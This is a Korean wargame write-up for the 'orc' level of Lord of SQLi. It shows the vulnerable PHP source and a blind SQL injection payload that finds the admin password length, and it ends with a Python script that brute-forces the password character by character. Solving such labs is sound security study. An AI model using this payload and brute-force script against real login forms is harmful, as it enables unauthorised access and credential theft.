 # Lord of SQLi - orc
> query : select id from prob_orc where id='admin' and pw=''
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
```
- GET 방식으로 파라미터를 넘겨주고 있다.
- pw파라미터에서 prob, \_, \., \(, \) 를 필터링하고있다.
- 이번에는 Hello admin 이라는 문구를 띄우더라도 그 밑줄에서 addslashes함수를 써서 쿼터를
   필터링한다.  



> select id from prob_orc where id='admin' and pw=''|| id='admin' and length(pw)= $var #'
- $var를 1부터 1씩 증가시켜가면서 대입을 해보면 $var=8일 때 Hello admin 을 출력하는 것을 보고  
   admin의 pw의 길이가 8이라는 것을 알 수 있다.  
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```
- 이 조건문으로 봤을 때 admin의 pw도 알아내야 문제를 풀 수 있다.
- 스크립트를 짜서 풀었다.

```python
# python 3.5.2
import urllib.request
MyHeader = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3',
'Accept-Encoding': 'none',
'Accept-Language': 'en-US,en;q=0.8',
'Connection': 'keep-alive'}
#MyCookies = {'PHPSESSID': '68jotprn1p8enuiqjd12ahvgs7','_cfduid':'db874ed463a1dda475cbf0410b0e3f66c1494392708'}
length=8
pw=""
arr="1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
for i in range(1,9):
	for j in range(0,62):
		url="http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=*' || id='admin' and substr(pw,{0},1)='{ascii}' %23".format(i,ascii=arr[j])
		r = urllib.request.Request(url,headers=MyHeader)
		r.add_header("Cookie","PHPSESSID=oa8na5v7q0h6m8dqu80mjmmsj5")
		data = urllib.request.urlopen(r).read().decode("utf-8")
		print(url)
		if data.find("Hello admin") != -1 :
			pw = pw + arr[j]
			print("This is    "+arr[j])
			break
print(pw)
```
